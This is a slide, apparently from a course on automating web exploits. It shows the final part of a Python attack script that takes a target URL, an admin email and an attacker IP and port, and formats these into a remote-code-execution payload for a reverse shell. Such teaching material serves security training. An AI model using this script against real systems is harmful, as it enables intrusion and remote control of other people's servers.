

Web (cont.)
Basic Web : Automating Web Exploits
We finalize our script with a simple command prompt that accepts a target URL and attacker IP and port for the reverse shell.
...
if __name__ == "__main__":
    if(len(sys.argv) != 5):
        print(f"python3 {sys.argv[0]} <target_url> <admin_email> <attacker_ip> <attacker_port>")
        print(f"python3 {sys.argv[0]} http://172.16.238.100 joe@omani.cloud 172.16.238.1 9999")
        sys.exit(0)
    OUR_RCE_CODE = OUR_RCE_CODE.format(sys.argv[3], sys.argv[4])
    main(sys.argv[1].rstrip("/"), sys.argv[2])
41